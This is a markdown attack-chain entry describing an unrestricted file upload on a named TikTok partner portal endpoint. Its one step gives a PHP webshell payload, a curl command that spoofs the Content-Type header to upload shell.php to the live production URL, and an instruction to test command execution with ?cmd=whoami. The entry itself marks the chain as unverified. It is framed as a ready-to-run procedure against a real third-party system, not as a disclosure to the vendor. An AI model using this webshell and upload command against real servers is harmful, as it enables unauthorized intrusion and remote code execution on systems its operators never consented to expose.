

# Unrestricted File Upload on TikTok Partner Portal Leading to Potential RCE

Multi-stage attack chain demonstrating exploitation of an unrestricted file upload vulnerability in the TikTok partner portal at https://partner.tiktokshop.com/wsos_v2/oec_partner/upload. By modifying the Content-Type header, attackers can upload files with arbitrary extensions, bypassing validation and potentially leading to server-side execution of malicious payloads.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- curl (for HTTP requests)

### Target Environment

- Web platform
- Access to the TikTok partner portal endpoint: https://partner.tiktokshop.com/wsos_v2/oec_partner/upload
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Valid session or authentication to the partner portal (e.g., API token or login credentials)
- Network access to the internet
- No prior access needed beyond reaching the public endpoint

## Detailed Attack Procedures

### Step 1: Exploit Unrestricted File Upload
procedure: [[procedures/Unrestricted-File-Upload-via-Content-Type-Manipulation]]

**Objective**: Upload a malicious file with an arbitrary extension by spoofing the Content-Type header, bypassing server validation and enabling potential remote code execution.

**Instructions**: Authenticate to the TikTok partner portal if required, then use [[commands/curl-file-upload-tiktok]] to send a request with a modified Content-Type header. Prepare a simple malicious file, such as a PHP webshell (e.g., shell.php containing <?php system($_GET['cmd']); ?>), and upload it targeting the vulnerable endpoint.

```bash
curl -X POST 'https://partner.tiktokshop.com/wsos_v2/oec_partner/upload' \
  -H 'Content-Type: image/jpeg' \
  -H 'Authorization: Bearer YOUR_TOKEN' \
  --data-binary '@shell.php' \
  -o response.json
```

**Expected Output**: Server response indicating successful upload (e.g., JSON with file path or ID), without rejection due to file type.

**Success Indicators**:
- Upload succeeds without error
- File is accessible on the server (e.g., via subsequent request to the returned path)
- If executable, test execution by accessing the file URL with parameters (e.g., ?cmd=whoami)

## Attack Chain Summary

### Key Achievements

1. Bypassed file type validation using Content-Type manipulation
2. Uploaded arbitrary executable file to the server
3. Enabled potential for remote code execution or data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Remote File Copy]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
